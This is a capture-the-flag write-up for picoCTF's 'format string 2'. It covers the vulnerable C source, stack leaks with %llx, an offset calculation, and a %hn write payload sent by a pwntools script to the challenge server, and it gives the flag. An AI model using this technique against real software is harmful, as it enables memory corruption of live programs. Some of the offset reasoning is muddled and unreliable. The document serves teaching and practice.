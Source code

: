 # format string 2

## Solving

```
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc rhea.picoctf.net 59604
```

```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

We see our vulnerability here 

```c
 scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
```
Now over here it checks if the variable ``sus`` is ``= galf`` in little endian order. This was originally Flag. If it is it returns us the flag. Else it prints out what our current sus is set to.

Now over here we ``sus`` is declared as a global variable and in this is case is set to ``int sus = 0x21737573;``

```
Non-debugging symbols:
0x000000000040038c  __abi_tag
0x0000000000402000  _IO_stdin_used
0x0000000000402104  __GNU_EH_FRAME_HDR
0x00000000004021d8  __FRAME_END__
0x0000000000403e10  __frame_dummy_init_array_entry
0x0000000000403e18  __do_global_dtors_aux_fini_array_entry
0x0000000000403e20  _DYNAMIC
0x0000000000404000  _GLOBAL_OFFSET_TABLE_
0x0000000000404050  __data_start
0x0000000000404050  data_start
0x0000000000404058  __dso_handle
0x0000000000404060  sus
```

After using gdb to investigate the stack and looking where this sus variable was located we find out that it is present at the address location ``0x0000000000404060``

Now considering they have given us an input lets see where exactly this is stored on the stack using this script

```python
print("1"*8 + ",%llx" * 50)
```

we can also send this in one line using ``(python3 -c 'print("1"*8 + ",%llx" * 50)')``

```shell
hadakoi@Laptop:~/ctfsolve$ python3 script.py | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 11111111,7fffae4b3400,0,0,a,400,7fcb6a230860,7fcb6a268ab0,0,0,0,7fcb6a2692e0,1a0c23d,7fcb6a230d78,3131313131313131,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c  252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,786c,7c5eaa4c508a2a00,0,1,7fffae4b3750
sus = 0x21737573
You can do better!
```
Now looking at this we realise our input is stored at the 14th part of the stack.

So from here there are some things we can do specially in this case.

However say for example trying something like this ->

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("%18$llx,%19$llx,%20$llx,%21$llx,%22$llx,11111111")') | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 2c786c6c24323225,3131313131313131,0,7f38e1faa451,7f38e1f98140,11111111
sus = 0x21737573
You can do better!
hadakoi@Laptop:~/ctfsolve$
```
Ends up moving it to the 19th position? Now even trying to see the 14th position we see that it shows `` 2c786c6c24343125`` and the item is at the position of 20 now????

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("%14$llx,%18$llx,%19$llx,%20$llx,%21$llx,%22$llx,11111111")') | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 2c786c6c24343125,2c786c6c24313225,2c786c6c24323225,3131313131313131,7f2790666400,7f2790654140,11111111
sus = 0x21737573
You can do better!
hadakoi@Laptop:~/ctfsolve$
```

The reason this is is because the addresses we are trying to view prior end up buffering it from the known offset of 14 to the value of 20. as such hence overflowing it of sorts.  This because our length of payload is 48 bits or 6 bytes hence moving us 6 bytes up from 14 to 20.

As we know the base is 14 we can then start creating a payload from this.

Now essentially we want the value of `` 0x67616c66`` at ``0x404060``. Now normally when doing format string attacks instead of using 4 bytes which is the byte value of the string we are trying to change it to we split it into smaller parts which is over here hence storing them correctly.

```
0x6761 at the location (0x404062) (bytes for 6761) 26465
0x6c66 at the location (0x404060) (bytes for 6c66) 27750
```

This is keeping in mind the endiannesss

As such we can then craft our payload: 

``"'%26465x%18$hn...'" + "%1282x%19$hn...." + "\x62\x40\x40\x00\x00\x00\x00\x00" + "\x60\x40\x40\x00\x00\x00\x00\x00"``

Now over here we have the string ``%26465x%19$hn...`` the reason we use this is becuase first we want to move 26465 once that is done we have the value ``%18$hn...`` the ... here are supposed to make the length of the payload uniform as we have seen previously even the length of accessing values on the stack effects it. The 18 value comes from our known offset which is 14 however both our exploit lengths seem to be of bits 16 which comes out to 32 essentially becoming 4 bytes hence we have the value of 18


The ``1282x%19$hn....`` helps setup the next part. This because we need to get to 27750 and this used 26465 already. hence we can do 27750 - 26465 for a value of ``1285 chars``. Now as we had use padding to clear up the space and we also had to write there lets go back 3 ``...`` taking us to 1282. Now as we have written a value on the 18th value offset we now just need to write it on the 19th offset hence matching it correctly. Over here we also padd it with an extra bit ``.`` as it requires  

We also have to pass what what the targeted address is which in this case is ``0x404062`` which we pass in little endian format same for the other address.

Hence we come up with this script to automate the solve ->

So in all actuallity ->  printing all the characters of the length of the string from hex then finding the offset and putting the address at said offset.

```python
from pwn import *

p = remote('rhea.picoctf.net',59604)
s = p.recvuntil('say?')

p.sendline(b'%26465x%18$hn...' + b'%1282x%19$hn....' + b'\x62\x40\x40\x00\x00\x00\x00\x00' + b'\x60\x40\x40\x00\x00\x00\x00\x00')
p.interactive()
```

## Flag

> picoCTF{f0rm47_57r?_f0rm47_m3m_f43e6ccc}
